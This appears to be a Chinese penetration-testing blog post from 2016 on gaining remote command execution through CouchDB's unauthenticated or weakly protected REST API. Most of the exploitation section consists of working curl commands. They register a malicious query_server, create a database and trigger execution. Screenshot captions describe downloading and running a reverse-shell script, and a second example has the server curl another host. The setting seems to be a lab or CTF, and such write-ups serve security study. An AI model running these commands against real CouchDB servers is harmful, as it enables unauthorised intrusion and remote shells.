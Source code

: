 ```yaml
---
layout:     post
title:      "Couchdb命令执行"
subtitle:   "一点点记录"
date:       2016-09-11
author:     "Urahara"
header-img: "img/Couchdb-RCE.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - 数据库安全
---
```



## 背景介绍
 CouchDB是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation (JSON) API 访问。CouchDB 可以安装在大部分 POSIX 系统上，包括 Linux和 Mac OS X。

## 漏洞介绍
Couchdb默认会在5984端口开放Restful的API接口，如果使用SSL的话就会监听在6984端口，用于数据库的管理功能。其HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。

使用nmap扫描可发现couchdb的banner信息
![couchdb默认端口](https://urahara3389.github.io/img/Couchdb-RCE-nmap.png)

>执行命令需要使用admin权限，如果数据库存在未授权则可直接利用，若有账号认证则需要想办法获取admin的密码，当然可通过burpsuit去爆破/_utils/，也可以通过metasploit中的auxiliary/scanner/couchdb/couchdb_login模块直接进行爆破

CouchDB提供了一个可视化界面工具，在浏览器中运行“http://127.0.0.1:5984/_utils/”，即可见到如下所示的界面。
![账号认证](https://urahara3389.github.io/img/Couchdb-RCE-admin.png)

## 漏洞利用
这里举例有账号认证的情况，我们需要使用admin身份登录然后获取cookie，再使用curl命令与api进行交互，实现数据库操作
![获取Cookie](https://urahara3389.github.io/img/Couchdb-RCE-cookie.png)

>远程命令执行示例
1. 新增query_server配置，写入要执行的命令；
2. 新建一个临时库和临时表，插入一条记录；
3. 调用query_server处理数据

```
curl -X PUT 'http://192.168.199.181:5984/_config/query_servers/cmd' -d '"python /tmp/back.py"'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"

curl -X PUT 'http://192.168.199.181:5984/teeest'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X PUT 'http://192.168.199.181:5984/teeest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X POST 'http://192.168.199.181:5984/teeest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"
```

远程下载反弹脚本
![写入命令](https://urahara3389.github.io/img/Couchdb-RCE-command.png)
成功监听到下载请求
![监听下载](https://urahara3389.github.io/img/Couchdb-RCE-download.png)
添加执行权限
![添加执行权限](https://urahara3389.github.io/img/Couchdb-RCE-chmod.png)
执行反弹脚本
![执行反弹](https://urahara3389.github.io/img/Couchdb-RCE-backshell.png)
getshell，读取flag
![成功](https://urahara3389.github.io/img/Couchdb-RCE-over.png)
> 同样你也可以不用登录获取Cookie，直接在curl请求中带入账号密码也是可以的，类似于这样，执行效果是一样的，这种方法可能更方便点吧

```visual basic
{% highlight basic %}
root@Urahara:~# curl -X PUT 'admin:1qaz2wsx@192.168.199.165:5984/_config/query_servers/cmd' -d '"curl http://192.168.199.140/flag"'
"curl http://192.168.199.140/flag"
root@Urahara:~# curl -X PUT 'admin:1qaz2wsx@192.168.199.165:5984/wa'
{"ok":true}
root@Urahara:~# curl -X PUT 'admin:1qaz2wsx@192.168.199.165:5984/wa/haha' -d '{"_id":"770895a97726d5ca6d70a22173005c7a"}'{"ok":true,"id":"haha","rev":"1-967a00dff5e02add41819138abb3284d"}
root@Urahara:~# curl -X POST 'admin:1qaz2wsx@192.168.199.165:5984/wa/_temp_view?limit=14' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'
{% endhighlight %}
```


### 参考
[CouchDB未授权访问导致执行任意系统命令漏洞](https://www.secpulse.com/archives/45917.html)

[CouchDB未授权访问漏洞导致系统命令执行](http://blog.nsfocus.net/couchdb-unauthorized-access-vulnerability-system-command/)